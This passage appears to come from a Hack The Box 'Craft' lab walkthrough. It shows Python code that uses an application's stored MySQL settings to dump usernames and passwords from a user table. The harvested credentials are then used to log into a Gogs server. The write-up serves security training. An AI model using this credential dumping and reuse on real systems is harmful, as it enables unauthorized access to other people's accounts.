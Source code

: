     try: 
        with connection.cursor() as cursor:
       
            sql = "SELECT `id`, `brewer`, `name`, `abv` FROM `brew` LIMIT 1"
            cursor.execute(sql)
            result = cursor.fetchone()
            print(result)

    finally:
        connection.close()
    ```

    Let's see if we can retrieve data from the "User" table by modifying the code:

    ```python
    #!/usr/bin/env python

    import pymysql
    from craft_api import settings

    # test connection to mysql database

    connection = pymysql.connect(host=settings.MYSQL_DATABASE_HOST,
                                 user=settings.MYSQL_DATABASE_USER,
                                 password=settings.MYSQL_DATABASE_PASSWORD,
                                 db=settings.MYSQL_DATABASE_DB,
                                 cursorclass=pymysql.cursors.DictCursor)

    try: 
        with connection.cursor() as cursor:
            sql = "SELECT `id`, `username`, `password` FROM `user`"
            cursor.execute(sql)
            result = cursor.fetchmany(size=10)
            print(result)

    finally:
        connection.close()
    ```

    Take note of the `cursor.fetchmany`. I got stuck on this as I forgot that it only retrieved one result at a time. Changing this piece of code will select all data from rows 1-10.

    ![htb-craft-dbexploitpy.png](htb-craft-dbexploitpy.png)

    And there it is. I got new username and passwords from the SQL database, lets see if we can log into other services with them.

13. SSH doesn't work. SSH on port 6022 doesn't work either. `su` doesn't work either. Logging into Gogs using Gilfoyle's credentials worked! There appears to be a private repository.
